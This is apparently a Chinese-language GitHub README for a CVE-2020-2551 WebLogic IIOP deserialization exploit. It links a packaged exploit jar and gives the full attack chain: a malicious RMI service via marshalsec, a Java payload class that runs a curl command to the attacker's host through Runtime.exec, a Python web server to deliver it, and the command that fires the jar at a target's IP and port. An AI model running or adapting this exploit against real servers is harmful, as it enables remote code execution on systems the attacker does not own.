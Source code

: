 ## CVE-2020-2551
Weblogic IIOP 反序列化

## 测试环境
Weblogic10.3.6+jdk1.6

[打包好的jar包](https://pan.baidu.com/s/1WancKEtKzXDxwWP0zz3QPg) 提取码：a6ob 

## 漏洞利用
下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java
```java
package payload;

import java.io.IOException;

public class exp {

    public exp() {
        String cmd = "curl http://172.16.1.1/success";
        try {
            Runtime.getRuntime().exec(cmd).getInputStream();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

**尽量使用和weblogic相同的jdk版本和依赖库(wlfullclient.jar)编译** 然后本地起一个web服务器

```
python -m http.server --bind 0.0.0.0 80
```

命令行运行jar包
```
java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp
```
实际效果如图
![image](https://user-images.githubusercontent.com/40487319/75524749-81804100-5a49-11ea-8409-20746ca09299.gif)

## 已知问题
很多小伙伴都说复现不成功，看了网上的一些文章发现IIOP存在nat模式的问题，今天发现先知上有了 https://xz.aliyun.com/t/7498 各位自行移步。

## 参考

https://y4er.com/post/weblogic-cve-2020-2551/

